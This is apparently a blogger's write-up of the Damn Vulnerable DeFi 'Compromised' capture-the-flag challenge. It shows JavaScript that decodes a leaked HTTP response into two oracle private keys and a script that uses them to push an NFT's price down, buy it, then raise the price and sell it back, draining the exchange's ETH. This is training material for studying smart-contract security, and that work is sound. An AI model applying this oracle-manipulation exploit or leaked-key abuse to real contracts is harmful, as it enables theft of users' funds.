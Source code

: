 ## [Challenge #7 - Compromised](https://www.damnvulnerabledefi.xyz/challenges/7.html)

While poking around a web service of one of the most popular DeFi projects in the space, you get a somewhat strange response from their server. This is a snippet:

```
HTTP/2 200 OK
content-type: text/html
content-language: en
vary: Accept-Encoding
server: cloudflare

4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35

4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34     
```

A related on-chain exchange is selling (absurdly overpriced) collectibles called "DVNFT", now at 999 ETH each

This price is fetched from an on-chain oracle, and is based on three trusted reporters: `0xA73209FB1a42495120166736362A1DfA9F95A105`,`0xe92401A4d3af5E446d93D11EEc806b1462b39D15` and `0x81A5D6E50C214044bE44cA0CB057fe119097850c`.

Starting with only 0.1 ETH in balance, you must steal all ETH available in the exchange.

## Solutions

### Self

For this one, the idea was pretty simple once I figured out that the HTTP information was the base64 encoded value of the private keys for two of the oracles. After that it was pretty simple to figure out that I needed to reduce the price of the NFT in the two oracles[^1]. One the price was reduced I could by one NFT for the 0.1 ETH in my wallet. Then set the price back to the balance of ETH in the exchange. Then when the NFT is sold back the exchange transfers its entire balance to the seller.

The biggest problem I ran into was that when I would try to buy the NFT I was given the following error:

```

InvalidInputError: sender doesn't have enough funds to send tx. The max upfront cost is: 100206169921309290 and the sender's account only has: 100000000000000000
    at TxPool._validateTransaction (/Users/mike/workspace/CTF/damn-vulnerable-defi/node_modules/hardhat/src/internal/hardhat-network/provider/TxPool.ts:447:13)
    at processTicksAndRejections (internal/process/task_queues.js:95:5)
    at TxPool.addTransaction (/Users/mike/workspace/CTF/damn-vulnerable-defi/node_modules/hardhat/src/internal/hardhat-network/provider/TxPool.ts:112:5)
    at HardhatNode._addPendingTransaction (/Users/mike/workspace/CTF/damn-vulnerable-defi/node_modules/hardhat/src/internal/hardhat-network/provider/node.ts:1402:5)
    at HardhatNode._mineTransaction (/Users/mike/workspace/CTF/damn-vulnerable-defi/node_modules/hardhat/src/internal/hardhat-network/provider/node.ts:1410:5)
    at EthModule._sendTransactionAndReturnHash (/Users/mike/workspace/CTF/damn-vulnerable-defi/node_modules/hardhat/src/internal/hardhat-network/provider/modules/eth.ts:1494:18)
    at HardhatNetworkProvider.request (/Users/mike/workspace/CTF/damn-vulnerable-defi/node_modules/hardhat/src/internal/hardhat-network/provider/provider.ts:108:18)
    at EthersProviderWrapper.send (/Users/mike/workspace/CTF/damn-vulnerable-defi/node_modules/@nomiclabs/hardhat-ethers/src/internal/ethers-provider-wrapper.ts:13:20)
    
```

And no matter what I did, this was causing me to be stopped in my tracks. I am not sure if it was part of the challenge, but it certainly caused me some headaches. And then finally, after spending a substantial amount of time (a few hours over the span of 3 or 4 days), I finally realized that I need to spend 0.09 ETH instead of the 0.1 ETH that was being shown in [cmichel.io](https://cmichel.io/damn-vulnerable-de-fi-solutions/)'s solution as well as [Zuhaib Mohammed](https://zuhaibmd.medium.com/damn-vulnerable-defi-challenge-7-compromised-feb249be0e2f)'s solution.

### [cmichel.io](https://cmichel.io/damn-vulnerable-de-fi-solutions/)

The seventh challenge deals with an NFT exchange contract that automatically buys and sells certain NFTs at a price determined by an oracle. The oracle itself uses three externally owned accounts as price feeders and returns the median of the reported prices. Our goal is to manipulate the price to buy a cheap NFT, then manipulate the price again to sell this NFT for a huge profit. As the oracle uses the median we need to manipulate at least two oracles to be able to change the price.

The [challenge description](https://www.damnvulnerabledefi.xyz/challenges/7.html) shows an excerpt of a HTTP response with some hex data:

```http request
HTTP/2 200 OK
content-type: text/html
content-language: en
vary: Accept-Encoding
server: cloudflare

4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35

4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34
```

After decoding this hex data, we get a base64 string. Which we can decode again to receive the following:

```
1. Leaked data: 4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35
2. Decoded from hex: MHhjNjc4ZWYxYWE0NTZkYTY1YzZmYzU4NjFkNDQ4OTJjZGZhYzBjNmM4YzI1NjBiZjBjOWZiY2RhZTJmNDczNWE5
3. Private key from base64: 0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9

4. Leaked data: 4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34
5. Decoded from hex: MHgyMDgyNDJjNDBhY2RmYTllZDg4OWU2ODVjMjM1NDdhY2JlZDliZWZjNjAzNzFlOTg3NWZiY2Q3MzYzNDBiYjQ4
6. Private key from base64: 0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
```

The result for each decoding is a 32-byte string. Ethereum uses elliptic curve cryptography, more specifically the secp256k1 curve, which has 32-byte scalars. These scalars are used as private keys of accounts. The public key is this private key multiplied by the generator point and has ~33 bytes as you only need to encode the x coordinate and a flag which one of the two y-coordinates it is. The address, in turn, is the 20 lower bytes of the keccak256 hash of this public key.

Which means we can interpret these two hex strings as private keys and check what addresses they correspond to. I used the following JS code for that:

```javascript
const leakToPrivateKey = leak => {
  console.log(`1. Leaked data: ${leak}`)
  const base64 = Buffer.from(leak.split(` `).join(``), `hex`).toString(`utf8`)
  console.log(`2. Decoded from hex: ${base64}`)
  const hexKey = Buffer.from(base64, `base64`).toString(`utf8`)
  console.log(`3. Private key from base64: ${hexKey}`)
  return hexKey
}

// codes from https://www.damnvulnerabledefi.xyz/challenges/7.html
const compromisedOracles = [
  leakToPrivateKey(
    `4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35`
  ),
  leakToPrivateKey(
    `4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34`
  ),
].map(privateKeyHex => {
  // important to keep the `0x` prefix
  return web3.eth.accounts.privateKeyToAccount(privateKeyHex)
})

console.log(
  `Compromised oracles addresses: ${compromisedOracles
    .map(acc => acc.address)
    .join(` `)}`
)
// Compromised oracles addresses: 0xe92401A4d3af5E446d93D11EEc806b1462b39D15 0x81A5D6E50C214044bE44cA0CB057fe119097850c

```

Indeed, we found the private keys for the last two oracle sources which allow [modifying the price and buying / selling NFTs for profit](https://github.com/MrToph/damn-vulnerable-defi/blob/master/test/compromised/compromised.challenge.js#L69-L147).

```javascript
// 1. reduce NFT price to buy it cheap
const reducedPrice = ether(`0.1`)
await changePrice(reducedPrice.toString());

// 2. buy 1 NFT at this price
await this.exchange.buyOne({ from: attacker, value: reducedPrice });

// 3. increase NFT price to drain all Funds
const exchangeBalance = await balance.current(this.exchange.address);
await changePrice(exchangeBalance.toString());

// 4. approve transferFrom of 1 DVNFT token and sell it
await this.token.approve(this.exchange.address, 1, { from: attacker });
const FIRST_TOKEN_ID = 1;
await this.exchange.sellOne(FIRST_TOKEN_ID, { from: attacker });
```

### [Zuhaib Mohammed](https://zuhaibmd.medium.com/damn-vulnerable-defi-challenge-7-compromised-feb249be0e2f)

This one has the solution as an embedded image, which is sort of a pain. But it was helpful and I liked the solution better as it was more concise and done with `ethersjs`.




[^1] needed 2 of 3 oracles with the same price as the median price is used when buying and selling the NFT.